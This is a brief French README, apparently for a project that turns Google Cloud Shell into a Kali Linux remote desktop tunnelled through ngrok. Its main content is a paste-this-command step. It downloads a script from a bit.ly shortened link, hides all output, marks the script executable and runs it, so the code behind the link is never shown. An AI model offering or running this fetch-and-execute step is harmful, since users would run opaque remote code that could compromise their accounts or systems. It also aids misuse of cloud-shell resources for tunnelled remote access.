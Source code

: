 # rdp-kali
rdp kali
# Lancer le Google Cloud shell  et executez :

***************************************************
```
wget -O hous.sh https://bit.ly/3D2aBVg > /dev/null 2>&1  
chmod +x hous.sh  
./hous.sh  
```
***********

Obtenir un token depuis NGROCK : [Get Token](https://dashboard.ngrok.com/get-started/your-authtoken)

vous pouvez utiliser le Google Cloud Shell : [Launch GCS](https://console.cloud.google.com/home/dashboard?cloudshell=true&hl=fr)
> profitez bien de votre rdp.


